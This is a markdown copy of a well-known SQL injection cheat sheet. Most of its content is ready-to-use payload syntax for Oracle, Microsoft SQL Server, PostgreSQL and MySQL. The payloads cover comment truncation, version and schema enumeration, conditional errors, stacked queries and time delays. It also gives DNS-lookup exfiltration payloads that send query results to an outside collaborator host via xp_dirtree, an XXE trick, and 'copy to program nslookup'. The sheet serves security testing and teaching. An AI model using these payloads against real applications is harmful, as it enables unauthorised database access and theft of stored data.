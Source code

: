 # SQL injection cheat sheet
Reference: https://portswigger.net/web-security/sql-injection/cheat-sheet
This [SQL injection](https://portswigger.net/web-security/sql-injection) cheat sheet contains examples of useful syntax that you can use to perform a variety of tasks that often arise when performing SQL injection attacks.

## String concatenation
You can concatenate together multiple strings to make a single string.
```
Oracle	    'foo'||'bar'
Microsoft	'foo'+'bar'
PostgreSQL	'foo'||'bar'
MySQL	    'foo' 'bar' [Note the space between the two strings] 
            CONCAT('foo','bar')
```

## Substring
You can extract part of a string, from a specified offset with a specified length. Note that the offset index is 1-based. Each of the following expressions will return the string ``ba``.

```
Oracle	    SUBSTR('foobar', 4, 2)
Microsoft	SUBSTRING('foobar', 4, 2)
PostgreSQL	SUBSTRING('foobar', 4, 2)
MySQL	    SUBSTRING('foobar', 4, 2)
```

## Comments
You can use comments to truncate a query and remove the portion of the original query that follows your input.

```
Oracle	    --comment
Microsoft	--comment
            /*comment*/
PostgreSQL	--comment
            /*comment*/
MySQL	    #comment
            -- comment [Note the space after the double dash]
            /*comment*/
```

## Database version
You can query the database to determine its type and version. This information is useful when formulating more complicated attacks.

```
Oracle	    SELECT banner FROM v$version
SELECT      version FROM v$instance
Microsoft	SELECT @@version
PostgreSQL	SELECT version()
MySQL	    SELECT @@version
```

## Database contents
You can list the tables that exist in the database, and the columns that those tables contain.

```
Oracle	    SELECT * FROM all_tables
            SELECT * FROM all_tab_columns WHERE table_name = 'TABLE-NAME-HERE'
Microsoft	SELECT * FROM information_schema.tables
            SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'
PostgreSQL	SELECT * FROM information_schema.tables
            SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'
MySQL	    SELECT * FROM information_schema.tables
            SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'
```

## Conditional errors
You can test a single boolean condition and trigger a database error if the condition is true.

```
Oracle	    SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN to_char(1/0) ELSE NULL END FROM dual
Microsoft	SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 1/0 ELSE NULL END
PostgreSQL	SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN cast(1/0 as text) ELSE NULL END
MySQL	    SELECT IF(YOUR-CONDITION-HERE,(SELECT table_name FROM information_schema.tables),'a')
```

## Batched (or stacked) queries
You can use batched queries to execute multiple queries in succession. Note that while the subsequent queries are executed, the results are not returned to the application. Hence this technique is primarily of use in relation to blind vulnerabilities where you can use a second query to trigger a DNS lookup, conditional error, or time delay.

```
Oracle	    Does not support batched queries.
Microsoft	QUERY-1-HERE; QUERY-2-HERE
PostgreSQL	QUERY-1-HERE; QUERY-2-HERE
MySQL	    QUERY-1-HERE; QUERY-2-HERE
```

### Note
With MySQL, batched queries typically cannot be used for SQL injection. However, this is occasionally possible if the target application uses certain PHP or Python APIs to communicate with a MySQL database.

## Time delays
You can cause a time delay in the database when the query is processed. The following will cause an unconditional time delay of 10 seconds.

```
Oracle  	dbms_pipe.receive_message(('a'),10)
Microsoft	WAITFOR DELAY '0:0:10'
PostgreSQL	SELECT pg_sleep(10)
MySQL	    SELECT sleep(10)
```

## Conditional time delays
You can test a single boolean condition and trigger a time delay if the condition is true.

```
Oracle	    SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 'a'||dbms_pipe.receive_message(('a'),10) ELSE NULL END FROM dual
Microsoft	IF (YOUR-CONDITION-HERE) WAITFOR DELAY '0:0:10'
PostgreSQL	SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN pg_sleep(10) ELSE pg_sleep(0) END
MySQL   	SELECT IF(YOUR-CONDITION-HERE,sleep(10),'a')
```

## DNS lookup
You can cause the database to perform a DNS lookup to an external domain. To do this, you will need to use Burp Collaborator client to generate a unique Burp Collaborator subdomain that you will use in your attack, and then poll the Collaborator server to confirm that a DNS lookup occurred.

```
Oracle      The following technique leverages an XML external entity (XXE) vulnerability to trigger a DNS lookup. The vulnerability has been patched but there are many unpatched Oracle installations in existence:
            SELECT extractvalue(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://YOUR-SUBDOMAIN-HERE.burpcollaborator.net/"> %remote;]>'),'/l') FROM dual

            The following technique works on fully patched Oracle installations, but requires elevated privileges:
            SELECT UTL_INADDR.get_host_address('YOUR-SUBDOMAIN-HERE.burpcollaborator.net')
Microsoft	exec master..xp_dirtree '//YOUR-SUBDOMAIN-HERE.burpcollaborator.net/a'
PostgreSQL	copy (SELECT '') to program 'nslookup YOUR-SUBDOMAIN-HERE.burpcollaborator.net'
MySQL	    The following techniques work on Windows only:
            LOAD_FILE('\\\\YOUR-SUBDOMAIN-HERE.burpcollaborator.net\\a')
            SELECT ... INTO OUTFILE '\\\\YOUR-SUBDOMAIN-HERE.burpcollaborator.net\a'
```

## DNS lookup with data exfiltration
You can cause the database to perform a DNS lookup to an external domain containing the results of an injected query. To do this, you will need to use Burp Collaborator client to generate a unique Burp Collaborator subdomain that you will use in your attack, and then poll the Collaborator server to retrieve details of any DNS interactions, including the exfiltrated data.

```
Oracle	    SELECT extractvalue(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'||(SELECT YOUR-QUERY-HERE)||'.YOUR-SUBDOMAIN-HERE.burpcollaborator.net/"> %remote;]>'),'/l') FROM dual
Microsoft	declare @p varchar(1024);set @p=(SELECT YOUR-QUERY-HERE);exec('master..xp_dirtree "//'+@p+'.YOUR-SUBDOMAIN-HERE.burpcollaborator.net/a"')
PostgreSQL	create OR replace function f() returns void as $$
            declare c text;
            declare p text;
            begin
            SELECT into p (SELECT YOUR-QUERY-HERE);
            c := 'copy (SELECT '''') to program ''nslookup '||p||'.YOUR-SUBDOMAIN-HERE.burpcollaborator.net''';
            execute c;
            END;
            $$ language plpgsql security definer;
            SELECT f();
MySQL	    The following technique works on Windows only:
            SELECT YOUR-QUERY-HERE INTO OUTFILE '\\\\YOUR-SUBDOMAIN-HERE.burpcollaborator.net\a'
```